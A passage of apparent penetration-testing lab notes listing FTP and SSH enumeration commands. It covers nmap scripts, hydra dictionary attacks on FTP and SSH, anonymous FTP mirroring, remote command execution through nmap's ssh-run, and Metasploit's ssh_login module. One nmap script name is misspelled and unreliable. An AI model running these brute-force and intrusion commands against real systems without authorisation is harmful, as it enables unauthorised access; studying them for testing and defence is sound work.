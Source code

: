 - *nmap* target *-p21 --script ftp-anon*

### Hydra Bruteforce
- *hydra -L loginlist -P passlist* target *ftp*

### Nmap Bruteforce

- *nmap* target *--script ftp-brute --script-args userdb=userlist -p21*

### Download all files

- *wget -m --no-passive ftp://anonymous:anonymous@*targetIP

## SSH

### netcat
Use to get the banner enumeration (system version, operating system)
- *nc* target *22*

### Nmap

For enumerating algorythms for generating a key:

- *nmap* target *-p 22 --script ssh2-enum-alogs*

For enumerating ssh-rsa host key:

- *nmap* target *-p 22 --script ssh-hostkey --script-args ssh_hostkey=full*

Look for supported auth methods:

- *nmap* target *-p 22 --script ssh-auth-methods --script-args="ssh.user=student"*

- *nmap* target *-p 22 --script ssh-auth-methods --script-args="ssh.user=admin"*

- etc.

 Runs remote command on ssh server and returns command output:

 - *nmap* target *-p 22 --script ssh-run --script-args="ssh-run.cmd=ls -l /, ssh-run.username=**username**, ssh-run.password=**password**"

 ### SSH Dictionary Attack

 **Hydra**

 - *hydra -l student -P wordlist.txt* target *ssh*

 **nmap**

 -  *nmap* target *-p 22 --script ssh-brute --script-args userdb=**userlist***

 **MSFconsole**

> use auxiliary/scanner/ssh/ssh_login

> show options
